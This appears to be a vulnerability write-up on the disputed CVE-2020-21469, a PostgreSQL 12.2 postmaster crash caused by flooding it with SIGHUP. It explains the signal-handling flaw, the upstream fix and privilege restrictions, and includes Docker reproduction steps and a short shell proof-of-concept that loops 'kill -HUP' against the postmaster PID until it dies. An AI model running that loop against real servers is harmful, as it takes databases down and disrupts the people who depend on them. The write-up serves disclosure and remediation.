




# CVE-2020-21469 (Disputed) PostgreSQL SIGHUP Crash

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **SIGHUP (Signal Hang Up):** A signal in Unix/Linux systems, originally used to notify processes when the control terminal suspends (user disconnects). It has gradually been widely used as a convention signal for "requesting process to reload configuration": for example, in services like PostgreSQL, Nginx, Apache, sending SIGHUP to the master process triggers them to reread the configuration file without a full reboot, thus enabling a hot update.
- **CWE-120 Buffer Copy without Checking Size of Input ('Classic Buffer Overflow'):** When writing data to memory buffers (such as array or string buffers), the input size is not properly checked, causing the data to be written beyond the allocated space and thus overwriting adjacent memory. Attackers can exploit this to compromise program control flow, tamper with data, or even execute arbitrary code, making it one of the most common and dangerous memory security vulnerabilities.

**Status note:** The PostgreSQL Security Team explicitly states that CVE-2020-21469 is not a security vulnerability. Triggering the reported crash requires a PostgreSQL superuser, a role deliberately granted `pg_reload_conf`, or a privileged operating-system account capable of signaling the postmaster.

## Vulnerability Mechanism
PostgreSQL 12.2 contained a robustness bug in which a sufficiently privileged local actor could repeatedly deliver **SIGHUP** to the postmaster and trigger a crash. This is not remotely reachable by an ordinary database user. The demonstrated actor already has an administrative capability that can stop or severely disrupt the service, which is why PostgreSQL disputes the security classification.

## Vulnerability Location
Analysis of PostgreSQL 12.2 source code:

In the src/backend/postmaster/postmaster.c file, at line **567**, the PostmasterMain function

In line **628**, Postmaster installs multiple signal processors (including `SIGHUP`) with `pqsignal_no_restart()`. The semantics of `pqsignal_no_restart()` are: **Before entering the processor, the kernel will not automatically block other signals**; Instead, it is manually blocked inside the **processor** through `PG_SETMASK(&BlockSig)` and other means. In **high-frequency SIGHUPs** cases, there is a timing window: when the processor has not yet completed `PG_SETMASK` (or just unmasked), new `SIGHUP` arrives, which may lead to processor re-entry/recursion, stack growth, and repeated costly configuration overloads, ultimately resulting in DoS.

```c
// postmaster.c file, line 567
void PostmasterMain(int argc, char *argv[])
{
    // ...
    // 628 lines
    pqsignal_no_restart(SIGHUP, SIGHUP_handler);	/* reread config file and
                                                         * have children do same */
    pqsignal_no_restart(SIGINT, pmdie); /* send SIGTERM and shut down */
    pqsignal_no_restart(SIGQUIT, pmdie);	/* send SIGQUIT and die */
    pqsignal_no_restart(SIGTERM, pmdie);	/* wait for children and shut down */
    pqsignal(SIGALRM, SIG_IGN); /* ignored */
    pqsignal(SIGPIPE, SIG_IGN); /* ignored */
    pqsignal_no_restart(SIGUSR1, sigusr1_handler);	/* message from child
                                                     * process */
    pqsignal_no_restart(SIGUSR2, dummy_handler);	/* unused, reserve for
                                                     * children */
    pqsignal_no_restart(SIGCHLD, reaper);	/* handle child termination */
    
    // ...
}
```

## Remediation
PostgreSQL does not publish this item as a security vulnerability. Nevertheless, upgrade from the obsolete 12.2 release to a current supported minor release to obtain the signal-handling correction and later security fixes. Restrict `pg_reload_conf`, PostgreSQL superuser membership, and operating-system access to the service account.

The robustness fix uses a dedicated postmaster signal installation path:

Add a dedicated Postmaster installation function `pqsignal_pm()` to the src/backend/libpq/pqsignal.c file. Use `sigaction()` to set `sa_mask` directly to `BlockSig`, **the kernel blocks all signals during processor execution**, completely eliminating the "reentrant window before manual blocking."

```c
/* Installing the Signal Processor for Postmaster */
pqsigfunc pqsignal_pm(int signo, pqsigfunc func) {
#ifndef WIN32
  struct sigaction act, oact;
  act.sa_handler = func;
  if (func == SIG_IGN || func == SIG_DFL) {
    sigemptyset(&act.sa_mask);
    act.sa_flags = SA_RESTART;
  } else {
    act.sa_mask = BlockSig;   // Blocking "all signals" during processor entry
    act.sa_flags = 0;         // No SA_RESTART is set
  }
  ...
  sigaction(signo, &act, &oact);
  return oact.sa_handler;
#else
  return pqsignal(signo, func);
#endif
}
```

In `src/backend/postmaster/postmaster.c` `PostmasterMain()` initialization, the original installation method is uniformly replaced with `pqsignal_pm()` 

```c
pqsignal_pm(SIGHUP, SIGHUP_handler);
pqsignal_pm(SIGINT, pmdie);
pqsignal_pm(SIGQUIT, pmdie);
pqsignal_pm(SIGTERM, pmdie);
```

## Affected Versions
The report was reproduced against PostgreSQL 12.2. The CVE record does not define a normal remotely exploitable affected range, and the vendor disputes the vulnerability designation because the trigger requires elevated privileges.

## Environment Setup
Start the Docker environment, PostgreSQL version 12.2, administrator postgres, password postgres, database test already exists.

```txt
NIST:NVD     Base Score:4.4 MEDIUM    Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Using a postgres user identity, connect to the PostgreSQL database test in the container and run the PoC file. After a while, you will see that the Postgres PID does not exist.

   ```bash
   docker exec -it postgres-12.2 bash ./CVE-2020-21469-PoC.sh
   ```

   

   

2. Check the container logs; you can see that PostgreSQL encountered a segment error that caused the crash.

   ```bash
   docker logs postgres-12.2
   ```

   

## PoC Analysis

```sh
# Obtain the process's PID
PID=$(head -1 /data/postmaster.pid)

# Loop sending until the process no longer exists
i=0
while true; do
  if kill -0 "$PID" 2>/dev/null; then
    kill -HUP "$PID"
    i=$((i+1))
    echo "[INFO] Sent SIGHUP #$i to $PID"
  else
    echo "[ERROR] Process $PID not found (already crashed or exited)"
    break
  fi
done
```

`kill -HUP` sends a SIGHUP signal to the target process, which in PostgreSQL is used to reload configuration files. The script continuously sends `SIGHUP` signals to this PID, triggering configuration parsing and resource resets, which may cause a sharp drop in database performance or even denial of service.

## References
[NVD - CVE-2020-21469](https://nvd.nist.gov/vuln/detail/CVE-2020-21469#match-15090292)

[PostgreSQL: Buffer overflow when continuously send SIGHUP to postgres](https://www.postgresql.org/message-id/flat/CAA8ZSMqAHDCgo07hqKoM5XJaoQy6Vv76O7966agez4ffyQktkA@mail.gmail.com)

[In the postmaster, rely on the signal infrastructure to block signals. · postgres/postgres@9abb2bf](https://github.com/postgres/postgres/commit/9abb2bfc046070b22e3be28173a0736da31cab5a)

[PostgreSQL: CVE-2020-21469 is not a security vulnerability](https://www.postgresql.org/about/news/cve-2020-21469-is-not-a-security-vulnerability-2701/)

[CVE-2020-21469 - Critical Vulnerability in PostgreSQL 12.2: Denial of Service Attack by Repeating SIGHUP Signals --- CVE-2020-21469 - Critical Vulnerability in PostgreSQL 12.2: Denial of Service Attack through Repeated SIGHUP Signals](https://www.cve.news/cve-2020-21469/)
